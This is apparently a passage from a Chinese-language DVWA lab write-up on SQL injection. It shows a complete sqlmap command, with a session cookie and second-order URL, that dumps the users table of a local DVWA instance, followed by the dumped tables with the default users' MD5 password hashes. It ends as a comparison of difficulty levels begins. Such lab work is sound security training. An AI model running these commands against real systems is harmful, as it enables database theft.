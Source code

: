 ![image-20211103103112278](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955583.png)

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://192.168.112.140/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T users -C "user_id,user,password,first_name,last_name,avatar,last_login,failed_login" --dump`

![image-20211103103855074](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031955943.png)



### 三、一点总结

#### 1、dvwa数据库

guestbook表中内容如下：

| comment_id |         comment         | name |
| :--------: | :---------------------: | :--: |
|     1      | This is a test comment. | test |



locations表中内容如下：

|        name         |  latitude  | longtitude  |
| :-----------------: | :--------: | :---------: |
|   Yi Fu Building    | 31.2991982 | 121.5011749 |
|  Guanghua Building  | 31.2998161 | 121.5049133 |
| Xianghui Auditorium | 31.2975178 | 121.4994354 |



users表中内容如下：

| user_id | first_name | last_name |  user   |             password             |           avatar            |     last_login      | failed_login |
| :-----: | :--------: | :-------: | :-----: | :------------------------------: | :-------------------------: | :-----------------: | :----------: |
|    1    |   admin    |   admin   |  admin  | 5f4dcc3b5aa765d61d8327deb882cf99 |  /hackable/users/admin.jpg  | 2021-10-31 22:45:46 |      0       |
|    2    |   Gordon   |   Brown   | gordonb | e99a18c428cb38d5f260853678922e03 | /hackable/users/gordonb.jpg | 2021-10-31 22:45:46 |      0       |
|    3    |    Hack    |    Me     |  1337   | 8d3533d75ae2c3966d7e0d4fcc69216b |  /hackable/users/1337.jpg   | 2021-10-31 22:45:46 |      0       |
|    4    |   Pablo    |  Picasso  |  pablo  | 0d107d09f5bbe40cade3de5c71e9e9b7 |  /hackable/users/pablo.jpg  | 2021-10-31 22:45:46 |      0       |
|    5    |    Bob     |   Smith   | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/smithy.jpg  | 2021-10-31 22:45:46 |      0       |



#### 2、Low、Medium、High比较

因为是从Low做起的，Low的步骤中有写比较详细的步骤。后面的Medium和High总体步骤上差不多，所以过程中写的比较简略。主要区别在于：

**Low:**

①字符型sql注入；
